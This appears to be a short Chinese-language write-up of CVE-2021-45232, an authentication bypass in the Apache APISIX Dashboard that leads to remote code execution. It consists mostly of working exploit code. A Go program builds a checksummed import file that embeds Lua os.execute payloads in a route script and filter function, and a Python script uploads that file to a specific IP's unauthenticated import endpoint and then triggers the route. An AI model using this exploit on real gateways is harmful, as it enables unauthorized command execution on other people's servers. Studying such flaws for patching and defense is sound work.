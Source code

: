 # apisix

Apache APISIX 是一个动态、实时、高性能的API 网关， 提供负载均衡、动态上游、灰度发布、服务熔断、身份认证、可观测性等丰富的流量管理功能。 你可以使用Apache APISIX 来处理传统的南北向流量，以及服务间的东西向流量， 也可以当做k8s ingress controller 来使用

出现的漏洞是apisix-dashboard的未授权漏洞，并且可以rce

## 漏洞原理

[CVE-2021-45232 Apache APISIX Dashboard 认证绕过漏洞分析](https://www.wangan.com/p/7fy747719a2907e1)

**实际上就是/apisix/admin/migrate/export,/apisix/admin/migrate/import 没有做权限验证**

## rce

[CVE-2021-45232 Apache APISIX Dashboard RCE 分析](https://www.o2oxy.cn/3945.html)

通过访问/apisix/admin/migrate/export获得数据
```go
package main

import (
	"encoding/binary"
	"fmt"
	"hash/crc32"
	"io/ioutil"
	"os"
)

const (
	checksumLength = 4 // 4 bytes (uint32)
)
func main()  {

	data:=[]byte(`{"Counsumers":[],"Routes":[{"id":"388850332811134008","create_time":1641302459,"update_time":1641303242,"uris":["/rce"],"name":"rce","methods":["GET","POST","PUT","DELETE","PATCH","HEAD","OPTIONS","CONNECT","TRACE"],"script":"os.execute('ls \u003e /tmp/1')","script_id":"388850332811134008","upstream":{"nodes":[{"host":"1.116.136.120","port":1,"weight":1}],"timeout":{"connect":6,"read":6,"send":6},"type":"roundrobin","scheme":"http","pass_host":"pass"},"status":1}],"Services":[],"SSLs":[],"Upstreams":[],"Scripts":[{"id":"388850332811134008","script":"os.execute('touch 666.txt')"}],"GlobalPlugins":[],"PluginConfigs":[],"filter_func": "function(vars) os.execute('ls > /tmp/1');return true end"}`)
	checksumUint32 := crc32.ChecksumIEEE(data)
	checksum :=make([]byte,checksumLength)
	binary.BigEndian.PutUint32(checksum,checksumUint32)
	fileBytes :=append(data,checksum...)
	fmt.Println(checksum)
	content:=fileBytes
	mportData2:=content[:len(content)-4]
	checksum2 :=binary.BigEndian.Uint32(fileBytes[len(fileBytes)-4:])
	if checksum2 != crc32.ChecksumIEEE(mportData2){
		fmt.Println("error")
		return
	}
	ioutil.WriteFile("./exp.txt",content,os.ModePerm)

}
```

```python
import requests

url="http://1.116.136.120:9000/apisix/admin/migrate/import"
files={'file':open('../../exp.txt','rb')}
data2=requests.post(url,data={"mode":"overwrite"},files=files)
print(data2.status_code)
print(data2.content)
requests.get(url="http://1.116.136.120:9080")
```

## 思考

![image](https://user-images.githubusercontent.com/63966847/148041426-1a419562-5583-4c07-bbe2-887059392e5a.png)
